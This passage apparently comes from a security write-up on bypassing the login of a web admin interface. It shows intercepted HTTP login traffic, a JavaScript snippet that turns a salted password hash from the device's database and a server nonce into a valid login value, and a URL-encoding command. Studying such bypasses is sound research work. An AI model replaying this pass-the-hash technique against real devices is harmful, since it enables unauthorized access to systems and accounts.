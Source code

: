Next, we need to intercept requests and responses in our proxy and login with any password. We forward the first request:
```http
POST /login.cgi HTTP/1.1
Host: local:8200
Content-Length: 11
Pragma: no-cache
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://local:8200
Referer: http://local:8200/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: default-theme=ngax; xsrf-token=SlE1q8CS4utYcxaDaMN3YRiVCFa%2BShq%2B%2FcpSyOgDmQE%3D; session-nonce=%2BK8%2FyPtqk9RzLFomtGjCytMWg%2BMWd5dZZYxlVTSy4do%3D

get-nonce=1
```

We intercept the server's response:
```http
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate, max-age=0
Date: Sat, 18 Jan 2025 04:00:21 GMT
Content-Length: 140
Content-Type: application/json
Server: Tiny WebServer
Connection: close
Set-Cookie: session-nonce=h1uPxni2c73VfnPZnJ%2BbZUyZ53Wk%2FEp6s3mAglgBKvc%3D; expires=Sat, 18 Jan 2025 04:10:21 GMT;path=/; 

{
    "Status": "OK",
    "Nonce": "h1uPxni2c73VfnPZnJ+bZUyZ53Wk/Ep6s3mAglgBKvc=",
    "Salt": "xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I="
}
```

Here, the `Salt` value matches the salt value we saw in the database. The `Nonce` changes with every request. Now, we run the following console commands:
```javascript
var saltedpwd = '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a'; 
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('9yxAtk88T9gbEsItVOA4vVY5j3I07sx73fIZfQSMTco=') + saltedpwd)).toString(CryptoJS.enc.Base64);
console.log(noncedpwd);
++f/k5rLCAsD2H2CV/AyCYcyCIIwf1p0hnrByowC9hE=
```

The `saltedpwd` is our `server-passphrase` in hex format, and the noncedpwd is the intercepted nonce. This outputs the password value we need to replace in our next request, but first we need to URL encode it:
```shell
❯ echo -n "++f/k5rLCAsD2H2CV/AyCYcyCIIwf1p0hnrByowC9hE=" |jq -Rr '@uri'
%2B%2Bf%2Fk5rLCAsD2H2CV%2FAyCYcyCIIwf1p0hnrByowC9hE%3D
```
